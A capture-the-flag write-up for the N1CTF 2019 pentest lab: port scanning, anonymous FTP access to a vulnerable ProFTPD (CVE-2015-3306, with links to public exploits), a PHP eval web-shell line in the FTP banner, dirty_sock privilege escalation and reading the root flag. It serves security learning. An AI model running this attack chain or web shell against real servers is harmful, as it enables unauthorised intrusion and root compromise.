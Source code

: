 # Pentest N1ctf2019.lab(step1)

```
Pentest N1ctf2019.lab,But there is no need to scanning the web path. This will cause your IP to be banned.
http://47.52.129.242

Hint for Pentest N1ctf2019.lab step1(Web):flag is in host:web.n1ctf2019.lab path:/root/flag.txt
Hint for Pentest N1ctf2019.lab step1(Web):https://wiki.archlinux.org/index.php/Snap
Hint for Pentest N1ctf2019.lab step1(Web):FTP supports two modes: active and passive.
```

## Step 1 - Port Scanning

I can't found any pages on web service.  
I did a port scan and found other services.

```
Starting Nmap 7.30 ( https://nmap.org )
Nmap scan report for 47.52.129.242
Host is up (0.081s latency).
Not shown: 997 filtered ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 6.90 seconds
```

## Step 2 - access FTP Service & ProFTPd 1.3.5 (CVE-2015-3306)

```bash
root@vultr:~# ftp 47.52.129.242
Connected to 47.52.129.242.
220 ProFTPD 1.3.5rc3 Server (Debian) [::ffff:10.0.0.85]
Name (47.52.129.242:root): anonymous
331 Anonymous login ok, send your complete email address as your password
Password:
230-Welcome to N1ctf2019.lab!
230-
230-<?=eval($_REQUEST["enjoy~"]);?>
230-
230 Anonymous access granted, restrictions apply
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
200 PORT command successful
150 Opening ASCII mode data connection for file list
-rw-r--r--   1 ftp      nogroup        60 Sep  8 12:42 23333.php
-rw-r--r--   1 ftp      nogroup        60 Sep  8 11:10 fxxky0u.php
-rw-r--r--   1 root     root           26 Sep  7 07:47 index.html
-rw-r--r--   1 ftp      nogroup        60 Sep  8 15:11 mads.php
-rw-r--r--   1 ftp      nogroup        60 Sep  8 12:18 qiyou.php
-rw-r--r--   1 ftp      nogroup        60 Sep  8 12:43 test.php
-rw-r--r--   1 root     root           60 Sep  7 07:47 W3lc0m3_T0_N1ctf.msg
226 Transfer complete
ftp> 
```

Ftp service can access using anonymous account.
and `ProFTPD 1.3.5rc3` is vulnerable version about `CVE 2015-3306`.

https://github.com/t0kx/exploit-CVE-2015-3306  
https://www.exploit-db.com/exploits/36742

now, I can get webshell.

## Step 3 - LPE with dirty_sock (CVE-2019-7304)

https://github.com/initstring/dirty_sock

Finally, I can get `root`.

## Step 4 - get FLAG


```bash
$ ssh dirty_sock@47.52.129.242  
dirty_sock@47.52.129.242's password: 
Welcome to Ubuntu 14.04.5 LTS (GNU/Linux 4.4.0-93-generic x86_64)

 * Documentation:  https://help.ubuntu.com/
New release '16.04.6 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Welcome to N1CTF2019!

dirty_sock@web:~$ sudo -i
[sudo] password for dirty_sock: 
root@web:~# cat ~/flag.txt 
N1CTF{ImpOrtant_P0int3_4de0e}
root@web:~# 

```


